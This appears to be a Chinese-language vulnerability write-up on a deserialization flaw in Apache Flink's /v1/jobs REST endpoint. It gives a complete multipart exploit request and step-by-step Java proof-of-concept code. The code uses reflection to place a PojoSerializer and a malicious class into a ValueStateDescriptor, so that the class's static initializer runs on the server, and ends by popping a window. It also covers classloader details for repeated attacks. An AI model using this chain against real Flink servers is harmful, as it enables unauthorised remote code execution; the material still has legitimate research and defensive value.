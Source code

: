 0x01 漏洞入口
---------

实际上漏洞入口在 **JobSubmitHandler** 当中，**orich1** 师傅在《Apache Flink 多个漏洞分析》这篇文章也提及了，具体路由也是 **/v1/jobs** ，但是这里具体看看参数怎么入参的，实际上可以看到下图中`request.getUploadedFiles()`获取request请求中的文件内容，然后调用 **loadJobGraph** 方法进行下一步处理。

![image-20210207183439861](https://shs3.b.qianxin.com/butian_public/f47ca9e5f0616534917505d6f0ac91004.jpg)

在 **loadJobGraph** 方法当中，可以看到 **getPathAndAssertUpload** 方法根据`requestBody.jobGraphFileName`方法当中参数，获取当前上传文件的路径，然后调用java的 **ObjectInputStream** 获取数据传入，紧接的就是反序列化入口了。

![image-20210207183656378](https://shs3.b.qianxin.com/butian_public/f372c69a0461ca36565ef3082888e38ab.jpg)

先看看`requestBody.jobGraphFileName`，实际上这里是做了json的注释，所以怎么入参，实际上有个理解了，在一个POST请求当中，先上传序列化文件，然后调用json格式，例如`{"jobGraphFileName":"2.graph"}`，获取上传文件，然后执行反序列化。

![image-20210207183925719](https://shs3.b.qianxin.com/butian_public/f57bd5332d7c6544cd8714a164ad91da0.jpg)

所以post 包如下所示：

```php
POST /v1/jobs HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 3596

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="file_0"; filename="2.graph"

payload.ser
------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="request"

{"jobGraphFileName":"2.graph"}
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
```

0x02 序列化构造
----------

根据 **orich1** 师傅的文章：

> PojoSerializer，其 deserialize 函数会调用class.forname，且第二参数为 true （会执行类初始化，调用 static 代码块）

要如何构造的关键点实际上是 **StateDescriptor#readObject** 当中。

```java
    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        boolean hasDefaultValue = in.readBoolean();
        if (hasDefaultValue) {
            TypeSerializer<T> serializer = (TypeSerializer)this.serializerAtomicReference.get();
            ...
                    try {
                        this.defaultValue = serializer.deserialize(inView);
```

实际上在这里，我们可以把`serializer.deserialize`的 **serializer** 通过一定的方法修改成 **PojoSerializer** 就能达到我们的目的。

![image-20210207185327123](https://shs3.b.qianxin.com/butian_public/f7e9c35658bcb3527fc8b10aaa12814be.jpg)

**serializer** 对象是通过下图中的代码获取得到的。

```java
            TypeSerializer<T> serializer = (TypeSerializer)this.serializerAtomicReference.get();
```

而实际上 **serializerAtomicReference** 实际上是在 **StateDescriptor** 通过实例化 **AtomicReference** 对象，并调用这个对象中的get方法获取当前的序列化对象，所以我们可以逆向思维，构造的时候直接实际例化这个对象，利用反射放入 **PojoSerializer** 即可。

```java
public abstract class StateDescriptor<S extends State, T> implements Serializable {
    private static final Logger LOG = LoggerFactory.getLogger(StateDescriptor.class);
    private static final long serialVersionUID = 1L;
    protected final String name;
    private final AtomicReference<TypeSerializer<T>> serializerAtomicReference = new AtomicReference();
```

所以这部分POC：

```java
    AtomicReference<TypeSerializer> atomicReference = new AtomicReference<TypeSerializer>();
    PojoSerializer pojoSerializer = new PojoSerializer(Object.class, new TypeSerializer[0], new Field[0], new ExecutionConfig());
    atomicReference.set(pojoSerializer);
```

我们在玩下看 **ValueStateDescriptor** 是继承 **StateDescriptor** 对象，而 **StateDescriptor** 对象是一个可被序列化的对象，所以这里 **ValueStateDescriptor** 也是一个可被序列化的对象。

![image-20210207191554322](https://shs3.b.qianxin.com/butian_public/fb2e83523ce5982d5a8bcf9ae9d01756d.jpg)

在 **ValueStateDescriptor** 当中有这个一个构造方法，需要传入 **typeSerializer** 和 **defaultValue**

```java
    public ValueStateDescriptor(String name, TypeSerializer<T> typeSerializer, T defaultValue) {
        super(name, typeSerializer, defaultValue);
    }
```

而 **typeSerializer** 和 **defaultValue** 在 **StateDescriptor** 类（也就是 **ValueStateDescriptor** 的父类），当中对应的属性是 **serializerAtomicReference** 和 **defaultValue** 。

```java
    protected StateDescriptor(String name, TypeSerializer<T> serializer, @Nullable T defaultValue) {
        this.ttlConfig = StateTtlConfig.DISABLED;
        this.name = (String)Preconditions.checkNotNull(name, "name must not be null");
        this.serializerAtomicReference.set(Preconditions.checkNotNull(serializer, "serializer must not be null"));
        this.defaultValue = defaultValue;
```

所以需要分别反射修改，这里要注意 **defaultValue** 这里我们把恶意对象放进去了。

```java
        ValueStateDescriptor valueStateDescriptor = Exp1.createWithoutConstructor(ValueStateDescriptor.class);
        Field field = StateDescriptor.class.getDeclaredField("defaultValue");
        field.setAccessible(true);
        field.set(valueStateDescriptor, new EvalClass());

        field = StateDescriptor.class.getDeclaredField("serializerAtomicReference");
        field.setAccessible(true);
        field.set(valueStateDescriptor, atomicReference);
```

这里有几个细节，首先 **ValueStateDescriptor** 为啥要无参构造，而不是直接构造，原因在于 **StateDescriptor** 方法当中实力化对象需要有些 **checknotnull** 的检查，这样构造比较方便。

![image-20210207194822760](https://shs3.b.qianxin.com/butian_public/f91f0b1714f3fa001394ccc2a80975dde.jpg)

其次 **defaultValue** 是因为反序列化的时候有个 **hasDefaultValue** 的检查。

![image-20210207194945277](https://shs3.b.qianxin.com/butian_public/f59c3d4e62aa26acc639e1b09a338e770.jpg)

这个 **hasDefaultValue** 的检查时序列化是 **StateDescriptor** 序列化的时候会根据 **defaultValue** 的值写入表示标位（true或者false）

![image-20210207195137261](https://shs3.b.qianxin.com/butian_public/f4c1a52cd5d007a338ada09bd20c0812a.jpg)

以及把需要加载的类名写入到序列化的字节流当中。

![image-20210207195344179](https://shs3.b.qianxin.com/butian_public/f0ea637407bc0f473c9260ca085ad0c85.jpg)

弹个窗。

![image-20210207200043566](https://shs3.b.qianxin.com/butian_public/f2a3c4c18235316161652e92649b6e342.jpg)

0x03 几个其他细节
-----------

首先当前的classloader和启动位置的当前路径有关系，在flink-1.11.1下启动。

![image-20210207195445612](https://shs3.b.qianxin.com/butian_public/f50124cbf88028dc8686cdbf44b5e7de2.jpg)

![image-20210207195540318](https://shs3.b.qianxin.com/butian_public/f6633fdbae810a698e663f72356480bf3.jpg)

在flink-1.11.1/bin下启动。

![image-20210207195737321](https://shs3.b.qianxin.com/butian_public/f5f00d01c14127088b04de5d112a616f3.jpg)

![image-20210207195719468](https://shs3.b.qianxin.com/butian_public/ff9d0f58c276c139a04a39fd054cf6ac9.jpg)

其次由于java的 **classloader** ，我们通过 **class.forname** 加载的类只能加载一次，如果你要执行其他命令，你需要重新生成序列化对象，上传编译后的 **class** ，通过 **POST /v1/jobs** 重新进行攻击。